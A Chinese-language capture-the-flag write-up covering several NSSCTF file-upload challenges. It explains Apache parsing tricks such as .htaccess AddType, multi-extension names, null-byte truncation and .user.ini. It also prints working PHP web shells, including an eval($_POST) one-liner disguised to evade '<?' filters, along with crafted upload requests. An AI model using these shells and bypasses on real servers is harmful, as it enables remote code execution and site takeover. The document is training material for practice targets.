# 文件上传
## 文件上传最简单的题型

### [SWPUCTF 2021 新生赛]easyupload1.0
>url:https://www.nssctf.cn/problem/388


打开题目叫我们上传.jpg文件

上传成功直接显示路径了，用蚁剑连接一下
直接连接没用，改一下后缀

然后连接成功

直接拿flag


### [SWPU 2024 新生引导]ez_upload
>url:https://www.nssctf.cn/problem/5811

上传了一个图片木马，结果没用

把后缀改成php居然可以用成功连接


然后直接拿flag


### [SWPUCTF 2021 新生赛]easyupload3.0
>url:https://www.nssctf.cn/problem/436
>.hatccess,mime绕过


先传给jpg看看

上传成功但是连接不了

看到提示配合文件使用，说明这里应该要用.hatccess **.htaccess 可以“强行让图片当 PHP 执行”**
```
把上传包改成：
filename=".htaccess"
Content-Type: image/jpeg

文件内容：
AddType application/x-httpd-php .jpg
```
直接上传

然后重新上传一句话木马

连接成功

然后就拿到flag了


## 常见基础题型（.htaccesss）

### 经典 Apache 解析漏洞类型
Apache 的解析漏洞本质：服务器根据“规则链”解析文件，而不是只看最后一个后缀
Apache 的行为是：
**看配置 → 看映射 → 决定如何处理**
```
举例：
AddType application/x-httpd-php .php

意思是：
.php → 交给 PHP 引擎执行
```
**1. 多后缀解析漏洞**
原理
```
Apache 会解析：
shell.php.jpg

如果服务器配置允许：
.php 优先生效

那么它会：
把文件当 PHP 执行,即使最后是 .jpg
```

上传：
shell.php.jpg
绕过：只检查最后后缀 = jpg
但 Apache,按 php 执行
为什么会这样？

因为 Apache 解析方式是：
从左往右扫描
匹配到 php → 交给 PHP,**不是只看最后一个后缀。**

**2. .htaccess 解析控制漏洞**
这是最常见的。

攻击者上传：
.htaccess
```
AddType application/x-httpd-php .jpg
```
现在：

shell.jpg → PHP 执行


绕过所有后缀检测。
这不是 bug
这是 Apache 的“功能被滥用”
CTF 非常爱考。

**3. 空字节截断（历史漏洞）**
```
老 PHP（<5.3）存在：
shell.php%00.jpg

服务器解析为：
shell.php

但检测系统看到：
jpg
```
成功绕过

现代系统基本修复了
但 CTF 里会故意复现。

**4. 路径解析漏洞**
```
Apache + PHP CGI 模式下：
shell.php/.jpg

Apache 仍然会执行：
shell.php
```
因为它只看前半部分。
很多上传系统只验证：是否以 .jpg 结尾,结果被绕。
### [GXYCTF 2019]BabyUpload
>url:https://www.nssctf.cn/problem/1094
>知识点：.htaccess

直接上传一句话木马没有

经过不断上传东西发现会出现三种回复
1. 后缀名不能有ph！
2. 上传类型也太露骨了吧！
3. 诶，别蒙我啊，这标志明显还是php啊，这是**上传内容重含有<?**
所以重新构造一句话木马
```php
<script language="php">eval($_POST[x]);</script>
```
它不包含 <?,过滤检测不到,Apache 仍执行
把上传包改成：
```
filename=".htaccess"
Content-Type: image/jpeg
```
内容改为：
```
AddType application/x-httpd-php .jpg
```

构造第二个请求：
```
filename="shell.jpg"    Content-Type: image/jpeg

内容：
<script language="php">eval($_POST[x]);</script>

```

得到上传路径
```payload
var/www/html/upload/8f8f474cd76395198dd070b053961f3e/1.jpg succesfully uploaded!
```
然后蚁剑连接

最后找到flag


### [MoeCTF 2022]what are y0u uploading？
>url:https://www.nssctf.cn/problem/3351

打开题目直接上传一个图片木马


根据提示上传一个f1ag.php 
修改成f1ag.php之后直接就把flag给出来了


### [UUCTF 2022 新生赛]ez_upload
>url:https://www.nssctf.cn/problem/3094
>apache泄露


打开题目上传一个图片片木马，尝试用用蚁剑连接

按照这个路径连接失败，根据提示是apache漏洞，先尝试上传一个.htaccess文件

wtf，竟然没用
这里估计是被过滤了什么东西，先判断是**文件名拦截还是内容拦截**
**测试 1：.htaccess 空文件**
```
把内容改成 什么都没有：
(filename=".htaccess")
(内容留空)
```

出现这种情况是**文件名黑名单**

**测试 2：改文件名但保留内容**
```
filename="test.txt"
Content-Type: image/jpeg

AddType application/x-httpd-php .jpg
```
如果也返回：
你好坏啊，不理你了
说明：**检测的是内容（AddType / php）**


**测试 3：改关键字**
```
AddHandler application/x-httpd-php .jpg
或：
SetHandler application/x-httpd-php
```
如果 不同 payload 不同回显,说明是 正则关键词检测

判断出.htaccess被直接拦截之后
下面介绍几种方法
**方法一：.user.ini**

第一步：上传 .user.ini
```
请求里改成：
filename=".user.ini"
Content-Type: image/jpeg

内容：
auto_prepend_file=shell.jpg
```

第二步：上传 shell.jpg

然后用蚁剑连接加上路径upload.php注意不是upload/shell,jpg
这里不知道为什么连接不上，所以用第二种方法

**方向二：Apache 多后缀解析**
原理
```
Apache 可能会解析：
shell.php.jpg

如果：
服务器按 第一个危险后缀
而程序只检查 最后一个后缀

检测：jpg 
执行：php 
```
利用上面原理继续完成
不过这里注意到是我是1.jpg.php而不是1.php.jpg
这里不是apache的问题，估计是题目本身用了一些方法让顺序反了，所以在题目里还是要多尝试

然后用蚁剑连接

然后就找到flag了
 
### [SWPUCTF 2022 新生赛]Ez_upload
>url:https://www.nssctf.cn/problem/2642

打开题目上传一个图片木马结果没用


看到题目提示是.htaccess
然后上传一个.htaccess文件
将上传内容修改为下面所示
```
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

AddType application/x-httpd-php .jpg
```
显示上传成功


然后从新上传图片木马

不过这里出现一点状况，估计是将<?给过滤掉了，换一下一句话木马的语句
```
Content-Disposition: form-data; name="uploaded"; filename="jk.jpg"
Content-Type: image/jpeg

<script language="php">eval($_POST[jk]);</script>
```

出现路径之后就用蚁剑连接

连接成功之后就是找flag
直接在蚁剑里面找不到真的flag

在蚁剑的虚拟终端输入env看看是不是在环境变量里面

还可以在浏览器里通过post传参看phpinfo();，这里注意路径不要写错了



